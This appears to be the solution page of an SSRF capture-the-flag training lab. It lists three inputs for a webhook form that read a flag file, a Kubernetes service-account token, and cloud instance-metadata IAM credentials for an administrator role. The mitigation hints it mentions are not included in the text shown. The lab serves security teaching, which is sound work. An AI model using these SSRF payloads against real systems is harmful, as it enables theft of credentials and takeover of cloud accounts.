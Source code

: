 # How to get the flags

* [Flag1](https://github.com/BenjiTrapp/ssrf-playground/edit/main/exploit/SOLUTION.md#flag-1---how-to-access-the-etcflagtxt)
* [Flag2](https://github.com/BenjiTrapp/ssrf-playground/edit/main/exploit/SOLUTION.md#flag-2---raid-the-kubernetes-serviceaccounttoken)
* [Flag3](https://github.com/BenjiTrapp/ssrf-playground/edit/main/exploit/SOLUTION.md#flag-3---hijack-the-aws-account-by-absuing-the-ec2-metadata-service)

Below the solution on how to capture the flag, you can find some valuable hints on how to mitigate each flaw. Breaking things makes fun - but being prepared and stopping such attacks is awesome. So let's make you awesome :)

## Flag 1 - How to access the /etc/flag.txt
Simply run `file:///etc/flag.txt` in the WebHook Form:
<p align="center">
<img width="600" src="/exploit/flag1.jpg">
<br>Agile is our Mindset - DevOps is our Culture
</p>
<br>

## Flag 2 - Raid the kubernetes ServiceAccountToken
Run `file:///var/run/secrets/kubernetes.io/serviceaccount/token`in the WebHook Form:
<p align="center">
<img width="600" src="/exploit/flag2.jpg">
<br>Agile is our Mindset - DevOps is our Culture
</p>
<br>

## Flag 3 - Hijack the AWS Account by absuing the EC2 Metadata Service
Run `localhost:1338/latest/meta-data/iam/security-credentials/fulladministrator-role`
<p align="center">
<img width="600" src="/exploit/flag3.jpg">
<br>Agile is our Mindset - DevOps is our Culture
</p>
<br>

